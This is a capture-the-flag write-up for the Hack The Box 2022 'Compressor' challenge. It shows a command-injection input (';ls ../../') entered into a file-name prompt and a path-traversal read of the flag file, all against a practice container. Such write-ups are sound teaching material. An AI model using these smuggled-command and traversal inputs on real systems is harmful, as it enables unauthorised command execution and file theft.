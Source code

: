 ```yaml
---
title: "HTB CTF 2022 Compressor writeup"
date: 2022-05-20T18:48:39+08:00
description: "Writeup for Hack The Box CTF 2022 Misc problem Compressor"
tags: [ctf-writeups, htb-ctf, misc]
---
```


## Problem description
The problem starts a docker instance, which could be connected via netcat. This shows the following interface:

```
[*] Directory to work in: QV35hifhJuQ2tO7nNnKNDf30JmUxfAej

Component List:

+===============+
|               |
|  1. Head  🤖  |
|  2. Torso 🦴   |
|  3. Hands 💪  |
|  4. Legs  🦵   |
|               |
+===============+

[*] Choose component:
```

Choosing any of the components shows the following interface:

```
Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action:
```

## Solution

Entering 2 into the system, we can see that we're in on of `/home/ctf/<current_directory>/{Head, Torso, Hands, Legs}`

We'll want to execute any custom command we want to find the flag, as choosing 5 changing director just puts us back to the initial interface.

Notice that the backend uses a format string to generate the command executed, thus we can exploit the 3rd option by entering `;` followed by whatever command we want to execute. 

The process:
```
Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
...

[*] Choose action: 3


Insert name you want to read: ;ls ../../
cat: read error: Is a directory
OmQ5e9ftL9POUOa0uswbY48kz6sQfoBr
QV35hifhJuQ2tO7nNnKNDf30JmUxfAej
artifacts.py
clear.py
flag.txt

Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
...

[*] Choose action: 3


Insert name you want to read: ../../flag.txt
HTB{GTFO_4nd_m4k3_th3_b35t_4rt1f4ct5}
```

Thus, the flag is `HTB{GTFO_4nd_m4k3_th3_b35t_4rt1f4ct5}`

Note: this might be an unintended solution, as the problem suggests that one would need to create a zip file or "artifact" of some sort.
